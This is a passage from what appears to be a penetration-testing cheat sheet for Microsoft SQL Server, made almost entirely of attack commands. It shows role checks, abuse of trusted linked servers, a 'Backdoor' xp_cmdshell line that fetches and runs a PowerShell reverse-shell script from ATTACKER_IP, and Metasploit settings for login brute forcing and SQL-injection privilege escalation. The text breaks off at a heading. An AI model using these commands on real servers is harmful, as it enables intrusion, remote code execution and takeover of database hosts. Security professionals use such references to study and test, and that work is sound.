 ```sql
SELECT SYSTEM_USER;
SELECT IS_SRVROLEMEMBER('sysadmin');
```

## 4.6. Exploit Trusted Links

List trusted links

```sql
select * from master..sysservers;
```

Execute query on the server

```sql
SELECT * from OPENQUERY ("ServerName",'select @@version');
```

## 4.7. Backdoor

```sql
EXEC master..xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://ATTACKER_IP:8000/rev.ps1") | powershell -noprofile';
```

# 5. Attack with tools

## 5.1. Login brute force

```ruby
use auxiliary/scanner/mssql/mssql_login
set RHOSTS TARGET_IP
set user_file /root/Desktop/user.txt
set pass_file /root/Desktop/pass.txt
run
```

## 5.2. SQLi - Priv esc with metasploit

### 5.2.1. Escalate dbowner sqli

```ruby
use auxiliary/admin/mssql/mssql_escalate_dbowner_sqli
set DATA destination='+and+1=[SQLi];--&password=1
set GET_PATH '/index.php'
set METHOD POST 
set RHOSTS TARGET_IP
set RPORT 80
```

### 5.2.2. mssql_escalate_execute_as_sqli
